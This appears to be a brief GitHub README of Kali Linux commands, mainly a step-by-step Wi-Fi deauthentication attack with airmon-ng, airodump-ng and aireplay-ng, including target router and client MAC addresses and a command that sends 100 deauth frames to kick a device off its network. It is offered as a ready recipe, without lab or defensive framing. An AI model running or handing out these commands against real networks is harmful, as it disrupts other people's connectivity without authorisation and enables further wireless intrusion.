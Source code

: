 # kali-commands

---

**Others Commands:** 

setxkbmap -model abnt2 -layout br _This command set the layout keyboard for brazilian._
   
---

**Wireless**

***Shutdown User of Network***

   -``ifconfig`` - _for see name of the internet, like Ether or Wlan_   
   -`root@localhost:~# airmon-ng start wlan0 ` _This example init airmon for monitoring_
   -`root@localhost:~# airodump-ng wlan0mon` _this init the screen of networks_
`  -root@localhost:~# airodump-ng --bssid 58:D5:6E:6C:2F:8C --channel 10 wlan0mon` _Here initialize process of see all users in network_
   -`root@localhost:~# aireplay-ng -0 100 -a 58:D5:6E:6C:2F:8C -c 48:49:C7:FD:F3:1E wlan0mon` _this init the attach._
   -`root@localhost:~# airmon-ng stop wlan0mon` _This stop monitoring mod_

refs: --bssid or -a is Mac Adress of Router and -c is Mac of device connected.

